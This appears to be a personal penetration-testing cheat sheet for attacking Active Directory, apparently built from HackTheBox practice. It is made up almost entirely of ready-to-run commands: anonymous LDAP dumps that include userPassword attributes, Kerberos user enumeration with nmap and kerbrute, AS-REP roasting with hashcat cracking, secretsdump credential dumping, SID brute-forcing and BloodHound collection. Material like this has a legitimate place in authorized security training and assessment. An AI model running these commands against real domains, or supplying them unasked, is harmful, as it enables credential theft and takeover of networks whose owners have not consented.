 # Active Directory

## AD MindMap

[https://www.xmind.net/m/5dypm8/](https://www.xmind.net/m/5dypm8/)

## Manual Enumeration

- connect to LDAP

```python
import ldap3
server = ldap3.Server('x.X.x.X', get_info = ldap3.ALL, port =636, use_ssl = True)
connection = ldap3.Connection(server)
connection.bind()
True
server.info
```

- with name context, enumerate users

```python
connection.search(search_base='DC=timelapse,DC=htb', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
connection.entries
```

- dump ad

```python
connection.search(search_base='DC=timelapse,DC=htb', search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='userPassword')
```

## Tools

### nmap

- enum ldap properties

```
nmap -n -sV --script "ldap* and not brute" -p 389 $ip -Pn

```

- enumerate users

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$dom',userdb=/opt/wordlist/list.txt" $ip

```

### enum4linux

- list share, get domain name etc..

```
enum4linux -a $ip

```

- enumerate users

```
enum4linux -U $ip | grep 'user:'

```

### windapsearch

- enumerate users, domain name

```
python3 windapsearch.py --dc-ip $ip --users --full > wdapusers.txt
grep sAMAccountName wdapusers.txt | cut -d " " -f 2 > users.txt

```

### ldapsearch

- enumerate ldap properties

```
ldapsearch -x -h $ip -s base

```

- enumerate users

```
ldapsearch -h $ip -p 389 -x -b "dc=domain,dc=local"

```

- credential dumping

```
ldapsearch -LLL -x -H ldap://$ip -b "dc=domain,dc=local" -s base '(objectclass=*)'

```

### kerbrute

```
kerbrute userenum --dc $ip -d $dom /path/to/list.txt

```

### impacket

- check asreproast for a list of user

```
GetNPUsers.py domain.tld/ -dc-ip $ip -usersfile /path/to/list.txt

GetNPUsers.py -usersfile /path/to/list.txt -format hashcat -outputfile hashes.asreproast -dc-ip $ip $dom/
# crack the hash with hashcat -m 18200

```

- dump secret

```
secretsdump.py -dc-ip 0.0.0.0 domain.tld/username:password@0.0.0.0

```

- brute force domain sids

```
lookupsid.py anonymous@$ip

```

### bloodhound

```
pip3 install bloodhound
python3 -m bloodhound -d domain.tld -u username -p "password" -gc dc.domain.tld -c all -ns 0.0.0.0

```